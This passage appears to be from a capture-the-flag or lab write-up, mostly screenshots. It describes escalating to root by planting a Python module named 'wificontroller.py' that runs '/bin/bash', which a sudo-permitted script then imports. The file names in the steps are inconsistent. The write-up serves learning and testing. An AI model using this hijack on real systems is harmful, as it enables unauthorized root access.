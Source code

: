 ![](Images/Pasted%20image%2020221111092853.png)

#### -Typed "python wifi_reset.py" and I received the following output:

![](Images/Pasted%20image%2020221111093000.png)

#### -Typed "python -c 'import sys; print(sys.path)'" to receive a  list of directories that Python looks in when importing modules. Received the following output showing it looks in the current directory first:
![](Images/Pasted%20image%2020221111093133.png)

## Privilege Escalation vector

#### -Created a file named "wificontroller.py" on my kali machine with the following: 
import os 
os.system('/bin/bash')
#PythonLibraryHijackingPrivilegeEscalation

#### -Transferred controller.py to the target machine in the "/home/directory"

#### -Typed "sudo /usr/bin/python /home/walter/wifi_reset.py" and received a root shell:

![](Images/Pasted%20image%2020221111093244.png)

---
